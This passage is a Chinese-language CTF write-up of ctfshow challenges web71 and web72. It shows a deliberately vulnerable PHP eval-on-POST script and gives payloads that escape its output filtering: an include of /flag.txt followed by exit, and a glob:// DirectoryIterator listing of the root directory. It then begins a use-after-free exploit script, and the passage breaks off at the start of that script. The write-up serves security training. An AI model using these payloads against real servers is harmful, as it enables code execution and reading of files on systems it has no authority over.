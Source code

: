 ```php
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
看源码后得知会将命令执行后的结果中的数字字母全部替换为?，让我们无法查看，解决也很简单，在第8行执行完eval后让代码结束即可。
最终payload：c=include('/flag.txt');exit(); 
## web72（uaf脚本）
```php
<?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```
代码上没啥变化，但是实操中发现之前的姿势都不能用了，而且也不知道文件位置，先看一下当前目录
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637898487369-27008bf0-2f0c-49d1-b522-95e270b22b7b.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=uceae531c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=638&originWidth=1095&originalType=binary&ratio=1&rotation=0&showTitle=false&size=67093&status=done&style=none&taskId=u29cec3aa-110e-444c-b8ec-a02568b034f&title=&width=601)
没什么问题，看一下根目录
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637898550042-11019791-7c2a-4b1d-9d02-180289212956.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=ud3bd15ee&margin=%5Bobject%20Object%5D&name=image.png&originHeight=625&originWidth=1119&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69705&status=done&style=none&taskId=u3fc8989a-ccb0-435c-9247-7ee39525bef&title=&width=627)
根目录貌似无法查看了，换个姿势
```php
payload：
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
这里?>是闭合前面的php，让我们后面的php生效，既然直接读不可行，那么就间接来读，遍历根目录下所有文件，然后逐次打印
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637899253051-09d3c32c-e7b7-4343-89be-d4477b8258d5.png#clientId=u024a4150-3604-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=400&id=uc969f4a5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=796&originWidth=1148&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85783&status=done&style=none&taskId=u7b68611d-2124-4f32-90df-8bab2f3d383&title=&width=577)
发现flag0.txt，应该就是要找的文件了，这里直接读也是不行的，看了其他师傅的方法是要用uaf脚本进行命令执行，脚本如下，执行时要url编码
```php
<?php

function ctfshow($cmd) {
    global $abc, $helper, $backtrace;
```